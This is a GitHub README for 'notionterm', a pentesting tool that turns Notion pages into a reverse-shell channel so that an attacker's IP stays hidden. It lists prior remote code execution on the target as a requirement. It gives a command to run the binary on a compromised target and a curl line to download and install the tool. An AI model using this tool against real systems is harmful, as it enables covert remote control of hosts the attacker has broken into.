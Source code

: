 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>
</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo-first.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hide attacker IP in your reverse shell <i>(Notion ~ reverse proxy shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>Kind of webshell (if using notion in browser)</li>
</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and robust shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
  <li>Secure remote shell (Logically only person with writing access to your notion page can make rce with but...)</li>
</ul> 

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in your pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code>.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed bidirectionnal HTTP communication between host and target</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

**Set-up**
1. Create the "reverse shell" page in Notion (1 embed block, 1 code block)
2. Give the permissions to `notionterm` to access the page (with the notion api key)

**Run** ([details](#-run))

3. Start `notionterm`
4. Activate the reverse shell (with the button `ON`)
5. do your reverse shell stuff
6. Shutdown the reverse shell (`OFF`)

### 👟 Run

```shell
# On target with prior RCE
./notionterm --button=https://[TARGET_REACHABLE_IP]/button
```


## Install
* **From release**: `curl -lO -L https://github.com/ariary/notionterm/releases/latest/download/notionterm && chmod +x notionterm`
